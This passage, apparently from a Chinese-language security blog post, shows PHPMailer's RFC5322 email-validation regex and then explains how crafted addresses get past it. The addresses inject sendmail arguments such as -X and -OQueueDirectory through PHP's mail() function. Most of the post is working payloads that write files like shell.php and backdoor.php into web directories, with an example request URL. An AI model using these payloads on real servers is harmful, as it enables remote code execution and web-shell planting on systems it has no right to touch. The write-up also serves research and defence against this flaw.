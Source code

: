 ```
                 * Uses the same RFC5322 regex on which FILTER_VALIDATE_EMAIL is based, but allows dotless domains.
                 * @link http://squiloople.com/2009/12/20/email-address-validation/
                 * @copyright 2009-2010 Michael Rushton
                 * Feel free to use and redistribute this code. But please keep this copyright notice.
                 */
                return (boolean)preg_match(
                    '/^(?!(?>(?1)"?(?>\\\[ -~]|[^"])"?(?1)){255,})(?!(?>(?1)"?(?>\\\[ -~]|[^"])"?(?1)){65,}@)' .
                    '((?>(?>(?>((?>(?>(?>\x0D\x0A)?[\t ])+|(?>[\t ]*\x0D\x0A)?[\t ]+)?)(\((?>(?2)' .
                    '(?>[\x01-\x08\x0B\x0C\x0E-\'*-\[\]-\x7F]|\\\[\x00-\x7F]|(?3)))*(?2)\)))+(?2))|(?2))?)' .
                    '([!#-\'*+\/-9=?^-~-]+|"(?>(?2)(?>[\x01-\x08\x0B\x0C\x0E-!#-\[\]-\x7F]|\\\[\x00-\x7F]))*' .
                    '(?2)")(?>(?1)\.(?1)(?4))*(?1)@(?!(?1)[a-z0-9-]{64,})(?1)(?>([a-z0-9](?>[a-z0-9-]*[a-z0-9])?)' .
                    '(?>(?1)\.(?!(?1)[a-z0-9-]{64,})(?1)(?5)){0,126}|\[(?:(?>IPv6:(?>([a-f0-9]{1,4})(?>:(?6)){7}' .
                    '|(?!(?:.*[a-f0-9][:\]]){8,})((?6)(?>:(?6)){0,6})?::(?7)?))|(?>(?>IPv6:(?>(?6)(?>:(?6)){5}:' .
                    '|(?!(?:.*[a-f0-9]:){6,})(?8)?::(?>((?6)(?>:(?6)){0,4}):)?))?(25[0-5]|2[0-4][0-9]|1[0-9]{2}' .
                    '|[1-9]?[0-9])(?>\.(?9)){3}))\])(?1)$/isD',
                    $address
                );
            case 'noregex':
                //No PCRE! Do something _very_ approximate!
                //Check the address is 3 chars or longer and contains an @ that's not the first or last char
                return (strlen($address) >= 3
                    and strpos($address, '@') >= 1
                    and strpos($address, '@') != strlen($address) - 1);
```

绕过方式可以参考p牛的文章:  https://www.leavesongs.com/PENETRATION/how-to-analyze-long-regex.html ），

payload:

    aaa( -X/home/www/success.php )@qq.com


    
我们访问链接:`http://localhost:82/test.php?x=aaa(%20-X/var/www/html/rce.php%20)@qq.com`

最后mail执行的param的命令就是:`"-faaa( -X/var/www/html/rce.php )@qq.com"`

如果是非ubuntu系统，可能会有权限问题，可以加上`-OQueueDirectory=/tmp`

其他payload:
```

a. -OQueueDirectory=/tmp/. -X/tmp/shell.php @qq.com
() -OQueueDirectory=/tmp/. -X/tmp/shell.php @qq.com
a( -X/home/www/backdoor.php -OQueueDirectory=/tmp )@qq.com
" -X/home/www/backdoor.php -OQueueDirectory=/tmp "@qq.com
123@456  -oQ/tmp  -X./shell.php
```
